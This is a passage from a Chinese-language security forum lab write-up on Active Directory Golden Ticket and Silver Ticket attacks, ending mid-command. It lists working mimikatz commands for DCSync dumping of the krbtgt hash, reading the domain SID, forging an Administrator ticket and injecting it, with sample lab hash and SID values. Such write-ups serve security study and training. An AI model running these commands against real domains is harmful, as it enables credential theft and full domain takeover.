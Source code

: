 ## [](https://bbs.pediy.com/thread-268289.htm)4.2 Golder ticket

Golder
ticket使用krbtgt账户的密码hash值，利用伪造高权限的TGT向KDC要求颁发拥有任意服务访问权限的票据，从而获得域控权限。在域环境中，每个账户的票据都是Krbtgt生成的，当攻击者得到krbtgt
hash或AES256值后，我们就可以伪造任一域用户的身份，并用该身份进行访问。伪造Golder ticket利用条件：  
1、krbtgt用户hash或AES256值  
2、域名称  
3、域的SID值  
4、要伪造的管理员名



下面是具体操作：  
Privilege::debug  
执行导出krbtgt hash命令 Lsadump::dcsync /domain:test.com /user:krbtgt  
获得hash值：71204258ec5b715c29f6c8ee40a0c20d  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_4UP5DTPSTDQVR2C.png)  
获取域SID  
Wmic useraccount get name,sid  
S-1-5-21-2273191065-1635484360-3888421177-500  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_27BNPRH4UPB23B5.png)  
查询域管理员账户 net group “domain admins” /domain  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_43NUMK844CTJ333.png)  
获得域名 ipconfig /all  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_TVUEF5YTN7MHHHQ.png)  
Kerberos::purge清空票据，然后使用下面命令生成krbtgt的票据  
kerberos::golden /user:Administrator /domain:test.com
/sid:S-1-5-21-2273191065-1635484360-3888421177-500
/krbtgt:71204258ec5b715c29f6c8ee40a0c20d /ticket:krbtgt. kiribi  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_DUG83D24NKGRYJK.png)  
kerberos::ptt krbtgt.kiribi 把生成的票据重新导入内存  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_XDESX2R64QHBK5V.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_8NHUSX7QQSGJFZP.png)

## [](https://bbs.pediy.com/thread-268289.htm)4.3 Silver Ticket

Silver
Ticket会通过相应的服务账户来伪造TGS，例如LDAP、MSSQL、WinRM、CIFS等，范围相对有限，只能获取对应服务权限，且Silver
Ticket是由特定的账户加密的。利用条件：  
1、域名  
2、域SID  
3、目标服务器的FQDN  
4、可利用的服务  
5、服务账号的NTLM Hash  
6、需要伪造的用户名  
下面进行相应的操作：  
先清空系统中的票据 ：  
Kerberos::purge  
使用mimikatz生成伪造的 Silver Ticket ：  
kerberos::golden /user:Administrator /domain:test.com
